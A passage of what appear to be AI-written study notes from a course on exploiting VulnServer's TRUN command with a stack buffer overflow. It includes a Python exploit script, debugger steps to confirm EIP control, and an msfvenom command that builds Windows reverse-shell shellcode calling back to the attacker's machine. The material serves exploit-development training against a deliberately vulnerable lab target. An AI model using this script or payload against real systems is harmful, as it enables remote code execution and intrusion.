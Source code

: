         ```Python
        #!/usr/bin/env python3
        import sys, socket
        
        ret_address = "\\xAF\\x11\\x50\\x62"  # Example address in reverse
        payload = "A" * 2003 + ret_address
        
        try:
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect(("192.168.1.90", 9999))  # Replace with VulnServer's IP
            s.send(("TRUN /.:/" + payload).encode('latin-1'))
            s.close()
        except:
            print("Error connecting to server")
            sys.exit()
        ```
        
6. **Setting a Breakpoint on the Return Address**:
    - In **Immunity Debugger**, follow the selected return address by:
        - Right-clicking the address, selecting **Follow in Disassembler**, and pressing **F2** to set a breakpoint.
    - **Goal**: The program will pause execution at the breakpoint, confirming control over EIP.
7. **Executing the Script and Verifying Control**:
    - Run the modified script from Kali Linux.
    - **Expected Result**: Immunity Debugger pauses at the breakpoint, indicating successful EIP control.
8. **Next Steps**:
    - With control over EIP, the next step is to generate shellcode, replacing the current payload to redirect execution to the malicious code.

---

These notes summarize the process for finding a suitable module, setting a breakpoint, and verifying EIP control. Let me know if you'd like these saved as a .txt file.

# Generating Shellcode and Getting Root

Here’s a summary of the final video in the course, detailing how to gain a reverse shell by generating shellcode and completing the buffer overflow exploit.

---

### Gaining a Reverse Shell with Buffer Overflow (Transcript Notes)

1. **Objective**:
    - Generate shellcode to gain a reverse shell on the target system by exploiting the vulnerable `TRUN` command.
2. **Generating Shellcode with** `**msfvenom**`:
    - Use `msfvenom` to create a reverse shell payload that the vulnerable program will execute.
    - **Shellcode Generation Command**:
        
        ```Shell
        msfvenom -p windows/shell_reverse_tcp LHOST=<Kali IP> LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\\x00"
        ```
        